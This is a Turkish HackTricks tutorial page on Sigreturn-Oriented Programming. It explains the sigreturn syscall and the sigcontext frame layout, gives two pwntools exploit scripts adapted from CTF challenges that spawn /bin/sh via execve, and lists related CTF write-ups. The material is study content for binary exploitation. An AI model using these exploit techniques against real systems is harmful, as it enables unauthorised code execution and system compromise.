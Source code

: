 # SROP - Sigreturn-Oriented Programming

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Temel Bilgiler

**`Sigreturn`,** genellikle bir sinyal işleyicisi işlemini tamamladıktan sonra temizlik yapmak için kullanılan özel bir **sistem çağrısıdır**. Sinyaller, genellikle bir istisnai durumun meydana geldiğini belirtmek için işletim sistemi tarafından bir programa gönderilen kesintilerdir. Bir program bir sinyal aldığında, mevcut çalışmasını geçici olarak durdurarak sinyali bir **sinyal işleyici** ile işlemek üzere tasarlanmış özel bir işlevle ele alır.

Sinyal işleyicisi işini bitirdikten sonra, programın **önceki durumuna geri dönmesi** gerekir, sanki hiçbir şey olmamış gibi. İşte burada **`sigreturn`** devreye girer. Programı, sinyal işleyicisinden **geri dönmeye** ve sinyal işleyicisi tarafından kullanılan **yığın çerçevesini** (işlev çağrılarını ve yerel değişkenleri depolayan bellek bölümü) temizleyerek programın durumunu geri yüklemeye yardımcı olur.

İlginç olan kısım, **`sigreturn`**'un programın durumunu nasıl geri yüklediğidir: bunu yaparak, **CPU'nun tüm kayıt değerlerini yığında depolar.** Sinyal artık engellenmediğinde, **`sigreturn` bu değerleri yığından çıkarır**, CPU'nun kayıtçılarını etkin bir şekilde sinyalin ele alınmadan önceki durumlarına sıfırlar. Bu, mevcut yığının en üstüne işaret eden yığın işaretçi kaydını (RSP) de içerir.

{% hint style="danger" %}
Bir ROP zincirinden **`sigreturn`** sistem çağrısını çağırarak ve **yığında yüklemek istediğimiz kayıt değerlerini ekleyerek** tüm kayıt değerlerini **kontrol etmek** ve dolayısıyla örneğin `execve` sistem çağrısını `/bin/sh` ile **çağırmak mümkündür.**
{% endhint %}

Dikkat edin, bu, diğer Ret2syscall'ları çağırmak için parametreleri kontrol etmeyi çok daha kolay hale getiren bir **Ret2syscall türü** olacaktır:

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

Merak ediyorsanız, bu, daha sonra değerleri kurtarmak için yığında depolanan **sigcontext yapısı**'dır (şemayı [**buradan**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html) alın):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
Daha iyi bir açıklama için ayrıca şuraya bakabilirsiniz:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Örnek

Signeturn çağrısının ROP aracılığıyla oluşturulduğu bir örneği [**burada bulabilirsiniz**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), buradan ise bu son saldırı:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Ayrıca [**buradan exploit**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)'u kontrol edin, burada ikili zaten `sigreturn` çağrısını yapıyordu ve bu nedenle bir **ROP** ile oluşturulması gerekmiyor:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## Diğer Örnekler ve Referanslar

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* **`sigreturn`** sistem çağrısını çağıran ve ardından **yığın üzerine yazma** izni veren derlemeli ikili. Yığına bir [**ret2syscall**](rop-syscall-execv/) yazmak mümkündür, ardından bir **sigreturn** yapısı aracılığıyla okuma yapılabilir ve bayrak, ikili belleğin içinde bulunmaktadır.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* **`sigreturn`** sistem çağrısını çağıran ve ardından **yığın üzerine yazma** izni veren derlemeli ikili. Yığına bir [**ret2syscall**](rop-syscall-execv/) yazmak mümkündür, ardından bir **sigreturn** yapısı aracılığıyla (ikili, `/bin/sh` dizesine sahiptir) okuma yapılabilir.
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 bit, relro yok, canary yok, nx, pie yok. `gets` işlevini kötüye kullanarak basit bir tampon taşması, [**ret2syscall**](rop-syscall-execv/) gerçekleştiren bir gadget eksikliği ile gerçekleştirilir. ROP zinciri, `/bin/sh`'yi `.bss`'ye yazmak için tekrar gets çağırarak yazılır, eax'ı `0xf` olarak ayarlamak için **`alarm`** işlevini kötüye kullanır ve bir **SROP** çağrısı yapmak ve bir kabuk çalıştırmak için kullanır.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64 bit derlemeli program, relro yok, canary yok, nx, pie yok. Akış, yığında yazma, birkaç kaydı kontrol etme ve ardından bir sistem çağrısı yapma ve ardından `exit` çağırma izni verir. Seçilen sistem çağrısı, registreleri ayarlayacak bir `sigreturn`'dır ve `eip`'yi önceki bir sistem çağrısı talimatını çağırmak ve `memprotect`'i `rwx` olarak ayarlamak ve ESP'yi ikili alana ayarlamak için hareket ettirecektir. Akışı takip ederek, program ESP'yi tekrar okumak için ikili alana yönlendirecektir, ancak bu durumda ESP bir sonraki talimatı işaret edeceğinden, bir kabuk kodu geçirerek onu bir sonraki talimat olarak yazacak ve çalıştıracaktır.
